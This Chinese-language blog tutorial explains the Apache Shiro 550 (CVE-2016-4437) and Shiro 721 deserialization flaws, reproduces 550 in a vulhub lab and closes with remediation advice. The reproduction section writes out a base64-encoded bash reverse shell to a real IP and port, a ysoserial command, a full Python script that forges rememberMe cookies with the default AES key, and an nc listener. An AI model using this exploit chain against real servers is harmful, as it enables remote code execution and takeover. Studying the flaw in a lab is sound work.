








# Shiro是什么
Shiro是一个Java安全框架，能进行身份认证、授权管控、会话管理，还有加密功能保障数据安全。
身份认证核心：Shiro作为Java安全框架，身份认证是核心功能，支持多种认证方式，用户登录时验证凭证，通过才可进入系统防非法访问。
# Shiro 550 反序列化漏洞原理
CVE-2016-4437
影响范围Apache shiro<=1.2.4
# 原理
在Apache shiro的框架中，执行身份验证时提供了一个记住密码的功能（RememberMe），如果用户登录时勾选了这个选项。用户的请求数据包中将会在cookie字段多出一段数据，这一段数据包含了用户的身份信息，且是经过加密的。加密的过程是：用户信息=>序列化=>AES加密（这一步需要用密钥key）=>base64编码=>添加到RememberMe Cookie字段。勾选记住密码之后，下次登录时，服务端会根据客户端请求包中的cookie值进行身份验证，无需登录即可访问。那么显然，服务端进行对cookie进行验证的步骤就是：取出请求包中rememberMe的cookie值 => Base64解码=>AES解密（用到密钥key）=>反序列化。

那么问题出现在哪里，即在AES_<font style="color:#DF2A3F;">加密时所需要的key通常来说是要保密的，</font><font style="color:#000000;">但是在</font><font style="color:#DF2A3F;">shiro版本<=1.2.24的版本中使用了固定的密钥kPH+bIxk5D2deZiIxcaaaA==</font>_。这样攻击者直接就可以用这个密钥实现上述加密过程，在Cookie字段写入想要服务端执行的恶意代码，最后服务端在对cookie进行解密的时候（反序列化后）就会执行恶意代码。在后续的版本中，这个密钥也可能会被爆破出来，从而被攻击者利用构造payload。
# 漏洞复现
环境搭建：使用 vulhub 搭建
cd ../vulhub/shiro/CVE-2016-4437
docker-compose up -d
docker ps
我们可以看到，端口为8080访问即可看到
我们使用Burpsuit进行抓包查看一下

我们可以看到，返回包里有rememberMe=deleteMe，这就是shiro的标志。执行身份验证时提供了一个记住密码的功能（RememberMe），如果用户登录时勾选了这个选项。用户的请求数据包中将会在cookie字段多出一段数据
此时我们来构造cookie进行反序列化攻击。其实也有很多成熟的工具可以使用，但是我们还是先来手动复现一下加深理解。
# 攻击流程为
1、探测与识别
2、构造恶意 Payload
3、加密并伪造 Cookie
4、发送恶意请求
1、探测与识别
上述其实已经简单说过这个了，攻击者首先会向目标网站发送请求，通过检查 HTTP 响应头中的 Set-Cookie 字段来识别是否存在 Shiro 框架。如果响应中包含 rememberMe=deleteMe，则表明目标很可能使用了 Shiro。
2、构造恶意的payload
我们来使用反弹shell进行演示，由于反弹shell的命令里有<>|等符号，所以我们先使用base64编码，可以有效绕过对其的检测。
https://ares-x.com/tools/runtime-exec

结果为
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMjI4LjYzLjIyMy85OTk4IDA+JjE=}|{base64,-d}|{bash,-i}随后我们使用ysoserial.jar工具来生成序列化的Payload
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMjI4LjYzLjIyMy85OTk4IDA+JjE=}|{base64,-d}|{bash,-i}"
3、加密并伪造cookie
过程为AES加密=>Base64编码
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
BS = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
iv = uuid.uuid4().bytes
encryptor = AES.new(key, AES.MODE_CBC, iv)
file_body = pad(popen.stdout.read())
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
return base64_ciphertext
if __name__ == '__main__':
payload = encode_rememberme(sys.argv[1])
print "rememberMe={0}".format(payload.decode())import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
# 1. 调用 ysoserial 生成 payload
# 注意：这里使用的是 JRMPClient，实战中通常使用 CommonsBeanutils1
popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
# 2. 定义填充函数 (PKCS5Padding)
# Python 3 中需要注意 bytes 和 str 的区别
BS = AES.block_size
# 修改点：使用 bytes([val]) 替代 chr(val) 以确保结果是 bytes 类型
pad = lambda s: s + (bytes([BS - len(s) % BS])) * (BS - len(s) % BS)
# 3. 准备密钥
key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
# 4. 生成随机 IV
iv = uuid.uuid4().bytes
# 5. 创建 AES 加密器
encryptor = AES.new(key, AES.MODE_CBC, iv)
# 6. 读取 ysoserial 的输出并进行填充
file_body = pad(popen.stdout.read())
# 7. 加密并拼接 IV + 密文，最后 Base64 编码
# 修改点：encrypt 返回的是 bytes，直接 encode 即可
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
return base64_ciphertext
if __name__ == '__main__':
# 检查参数
if len(sys.argv) < 2:
print("Usage: python3 shiro_exp.py <command>")
sys.exit(1)
payload = encode_rememberme(sys.argv[1])
# 修改点：Python 3 的 print 是函数
print("rememberMe={0}".format(payload.decode()))由于库的版本和兼容性问题，这里推荐python3脚本
随后我们将该python脚本与ysoserial.jar放到同一目录下并执行
python3 demo6.py 111.228.63.223:9999
生成Cookie即
rememberMe=ggNmw3KFQkqJqQ67Zsr5PR/+vFUJIpINpC/73GtvS4knj4Ni+NCWe5kiJHF8qgzRTLNxD7HXm+S0aWyTtglxGFYiLvFR8qvb7IBeRMxj2TuEqMUWuQh4vkISNtxDte2s2XU6gCk7miel0hXNJ9pc8ZvFkzhloUlsoAD0W8Ganwy1bOImWIn7L9kiBChURvC69DJzFYnB5ceYZ9kDC3y2JxLS69ZyIv1lkTisLzEH7usuaw0a+Km7iSydyL0oz45e7mePhgj5nq7wtK+jDiJsGl9A3fvAfousXZpnqPdFFv8Zqxb1cT+8aiIUY1GfekkPVlgkGAV3St+lHPkRQK3JOJ7Kl8N43uVV5lNV6ZU+xNVt+AVrP5HBHmZeh3ZfeNtrkrO45Ivc8+S75vtQ6GxdIg==4、发送恶意请求
我们使用Burpsuit，构造Cookie，同时打开监听
nc -lvnp 9998

成功实现反弹shell
# shiro 721
我们简单来讲一下shiro 721 影响范围Apache Shiro < 1.4.2
Shiro组件的加密key是系统随机产生的，无法猜到key。但是安全专家很快发现，Shiro的加密方式是AES-128-CBC，CBC加密方式存在一个 Padding Oracle Attack漏洞，可以得到一个存在反序列化数据的AES加密密文，发送给服务端后，shiro组件会解密然后触发反序列化代码执行漏洞。这种攻击方式的前提是需要登录后台获取一个合法Cookie。
由于攻击复现利用难度太大，并且实战受环境影响其实很难实现。所以此处直接照搬了大佬们的复现帖子
并且文中也写出，shiro 721 在实战中实现的可能性很低
一次成功的Shiro Padding Oracle需要一直向服务器不断发包，判断服务器返回，攻击时间通常需要几个小时。由于此漏洞利用起来耗时时间特别长，很容易被waf封禁，因此在真实的红队项目中，极少有此漏洞的攻击成功案例，大家多数都是在虚拟机环境下测试。
# shiro 550 和shiro 721 的异同
那我们来对比一下shiro 550 和shiro 721 的异同
最主要的区别:
1、这两个漏洞主要区别在于Shiro550使用已知密钥碰撞，只要有足够密钥库（条件较低），不需要Remember Cookie
2、Shiro721的ase加密的key基本猜不到，系统随机生成，可使用登录后rememberMe去爆破正确的key值，即利用有效的RememberMe Cookie作为Padding Oracle Attack的前缀，然后精心构造 RememberMe Cookie 值来实现反序列化漏洞攻击，难度高
| shiro 550 | shiro 721 | |
|---|---|---|
| 识别特征 | 识别特征都是响应包中的Set-Cookie: rememberMe=deleteMe; | 识别特征都是响应包中的Set-Cookie: rememberMe=deleteMe; |
| 利用难度 | 低。无需任何账号，只要框架使用了默认的硬编码密钥即可直接攻击 | 高。必须事先获取一个任意合法用户的 rememberMe Cookie，在此合法用户Cookie后再拼接我们反序列化的恶意poc |
| 攻击速度 | 快。一旦拿到密钥，生成恶意Cookie并发送是秒级的事。 | 极慢。核心是利用了复杂的 Padding Oracle Attack，通常需要持续数小时甚至更久才能成功构造出恶意的Cookie |
| 稳定性 | 高。攻击过程简单直接，不易出错。 | 低。长达数小时的发包过程极易因网络超时、IP被封、WAF拦截等因素中断，需要攻击者不断调整策略 |
# 修复建议：
1、升级shiro版本
从 1.4.2 版本开始，Shiro默认的加密方式从存在风险的 AES-CBC 变更为更安全的 AES-GCM 模式。AES-GCM 是一种认证加密模式，能有效抵御Padding Oracle Attack，从根本上修复了此漏洞。
2、管理好密钥，不要使用默认密钥
3、升级jdk版本
将JDK升级到较新版本（如 8u191/7u201/6u211/11.0.1以上），可以限制反序列化漏洞被利用后的影响范围
4、网络层面的防护
上一些网络层面的防护，如waf 防火墙等
- 拦截
Cookie中rememberMe值长度过大的请求（这往往是攻击特征）。 - 对短时间内频繁请求同一URL的IP进行临时封禁，因为Shiro-721的利用过程会产生大量请求
5、如果业务允许也可以直接关闭remember功能